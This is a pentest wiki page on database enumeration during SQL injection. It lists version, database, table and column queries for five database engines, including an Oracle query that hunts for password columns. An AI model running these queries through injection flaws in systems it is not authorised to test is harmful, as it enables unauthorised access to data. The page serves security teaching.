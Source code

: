 # Enum Database

## Theory

When exploiting SQL injection vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains. 

## Practice

{% hint style="info" %}
All queries on this page can be used with different techniques as UNION or Blind based attacks
{% endhint %}

### Database version 
Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.  
The queries to determine the database version for some popular database types are as follows:  

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT @@version 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT banner FROM v$version
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT version() 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sqlite_version();
```
{% endtab %}
{% endtabs %}

### Database Names 
When performing SQL injections, it can be useful to know the names of the databases that are present on the targeted server. Enumerating the database names allows you to identify which databases are available and potentially gain insight into the server's configuration and architecture. This information can be used to craft more targeted and effective SQL injection attacks. 

{% tabs %}
{% tab title="MySQL" %}
We can enum the current database with the following query:
```sql
SELECT database();
```
We can list all databases with the following query:
```sql
SELECT schema_name FROM information_schema.schemata;
```
{% endtab %}

{% tab title="MSSQL" %}
We can enum the current database with the following query:
```sql
SELECT DB_NAME();
```
We can list all databases with the following queries:
```sql
SELECT name FROM master..sysdatabases;
/*or*/
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```
{% endtab %}

{% tab title="OracleSQL" %}
We can enum the current database with the following queries:
```sql
SELECT global_name FROM global_name;
SELECT name FROM V$DATABASE;
SELECT instance_name FROM V$INSTANCE;
SELECT SYS.DATABASE_NAME FROM DUAL;
```
We can list all databases with the following query:
```sql
SELECT DISTINCT owner FROM all_tables;
```
{% endtab %}

{% tab title="PostgreSQL" %}
We can enum the current database with the following query:
```sql
SELECT current_database();
```
We can list all databases with the following query:
```sql
SELECT datname FROM pg_database;
```
{% endtab %}

{% tab title="SQLite" %}
We can extract database structure with the following query
```sql
SELECT sql FROM sqlite_schema;
```
{% endtab %}
{% endtabs %}

### Tables Names 
The next step in performing SQL injections is to enumerate the tables that are present within each database. Enumerating the table names can provide valuable information about the structure and content of the databases.  

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE();
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_catalog = DB_NAME();
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT table_name FROM all_tables;
SELECT table_name FROM all_tables WHERE owner = USER;

SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT table_name FROM information_schema.tables;
SELECT table_name FROM information_schema.tables WHERE table_schema = current_schema();
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';
```
{% endtab %}
{% endtabs %}

### Columns Names 
Next step is to enumerate columns within tables.It's a crucial step in the process of exploiting a SQL injection vulnerability.

{% tabs %}
{% tab title="MySQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
SELECT column_name FROM information_schema.columns WHERE table_name='TABLE-NAME-HERE';
```
{% endtab %}

{% tab title="SQLite" %}
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name';
```
{% endtab %}
{% endtabs %}


## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}